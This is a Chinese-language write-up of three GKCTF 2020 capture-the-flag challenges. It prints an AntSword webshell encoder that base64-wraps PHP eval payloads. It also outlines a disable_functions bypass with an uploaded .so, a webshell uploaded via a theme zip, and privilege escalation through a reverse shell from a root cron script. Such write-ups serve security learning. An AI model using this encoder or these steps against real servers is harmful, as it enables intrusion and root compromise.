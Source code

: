 # GKCTF 2020

## 前言

比赛当天有事，然后就没咋打，但是赛后复现发现题目出的好棒

## 0x01 Checkin

直接给了``eval``后门，但是得用base64编码，
于是手写个蚁剑编码器

```js
/**
 * php::base64编码器
 * Create at: 2020/05/24 10:13:32
 */

'use strict';

/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  // 生成一个随机变量名
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  // 原有的 payload 在 data['_']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[randomID] = Buffer.from(data['_']).toString('base64');

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data[pwd] = new Buffer(`eval(base64_decode($_POST[${randomID}]));die();`).toString('base64');

  // ##########    请在上方编写你自己的代码   ###################

  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

然后就能连上了，但是``/var/html``目录下没法写其他文件

而且得绕``disabled_functions``

于是乎用蚁剑执行脚本的插件

传一个``hack.so``

就能绕过了


![](/assets/images/gkctf2020-p1.png)

## 0x02 CVE Checkin

后来放了提示是``cve-2020-7066``

但其实应该fuzz到吧....

然后就是做题的时候特意开了个靶机去监听

后来发现访问``127.0.0.1``直接有提示

傻了傻了....

## 0x03 老八小超市儿

渗透题

没去想后台地址弱密码还是经验太少了or2

然后就是看传文件点，传个shell上去

但是文件具体在哪又找了半天

如果传在默认主题zip的``default/__static__/eki.php``


那么访问路由应该是下面这样

```
/public/static/index/default/eki.php
```

getshell完了，根据提示，去找生成的脚本（因为这个脚本是由root权限+定时执行的）

改造下这个脚本，反弹shell，就拿到root权限了



